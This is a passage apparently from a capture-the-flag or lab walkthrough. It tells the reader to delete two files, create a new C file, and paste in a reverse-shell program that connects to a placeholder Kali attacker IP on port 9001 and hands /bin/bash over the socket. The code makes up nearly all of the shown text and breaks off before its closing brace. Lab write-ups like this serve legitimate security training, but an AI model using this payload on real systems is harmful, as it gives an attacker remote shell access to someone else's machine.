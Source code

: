 So firstly , let us delete the files  rev and supersecret files

![alt img](images/5-5.png)
Next step is to create a .C file
```sh
nano supersecretfileuc.c
```
now we put this revshell script into our new file
```sh

#include <stdio.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
#include <netinet/in.h>
#include <arpa/inet.h>

int main(void){
   int port=9001;
   struct sockaddr_in revsockaddr;
   
   int sockt = socket(AF_INET, SOCK_STREAM, 0);
   revsockaddr.sin_family = AF_INET;
   revsockaddr.sin_port = htons(port);
   revsockaddr.sin_addr.s_addr = inet_addr("<kali machine IP");
   
   
  connect(sockt, (struct sockaddr *) &revsockaddr,
  sizeof(revsockaddr));
  dup2(sockt, 0);
  dup2(sockt, 1);
  dup2(sockt, 2);
  
  char * const argv[] = {"/bin/bash", NULL};
  execve("/bin/bash", argv, NULL);
  
```